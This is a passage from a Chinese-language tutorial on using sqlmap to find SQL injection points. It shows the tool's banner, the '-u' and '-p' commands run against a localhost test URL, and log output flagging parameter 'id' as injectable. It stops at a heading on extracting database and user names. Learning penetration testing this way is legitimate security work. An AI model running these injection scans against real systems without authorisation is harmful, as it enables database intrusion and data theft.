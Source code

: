 然后

```
C:\Users\asus> sqlmap
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1#pip}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

Usage: sqlmap [options]

sqlmap: error: missing a mandatory option (-d, -u, -l, -m, -r, -g, -c, -x, --wizard, --update, --purge-output or --dependencies), use -h for basic or -hh for advanced help


Press Enter to continue...
```

### 判断注入点

直接使用`-u`命令把 URL 给 SqlMap 会判断注入点。

```
sqlmap -u http://localhost/sql.php?id=
```

要注意这样 sqlmap 会判断所有的动态参数，要指定某个参数，使用`-p`：

```
sqlmap -u http://localhost/sql.php?id= -p id
```

结果：

```
[*] starting at 12:05:40

[12:05:40] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:05:40] [INFO] testing connection to the target URL
[12:05:41] [INFO] heuristics detected web page charset 'utf-8'
[12:05:41] [INFO] testing if the target URL is stable
[12:05:42] [INFO] target URL is stable
[12:05:44] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:05:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
```

sqlmap 报告了参数`id`可能存在注入。

如果参数在 HTTP 正文或者 Cookie 中，可以使用`--data <data>`以及`--cookie <cookie>`来提交数据。

### 获取数据库及用户名称
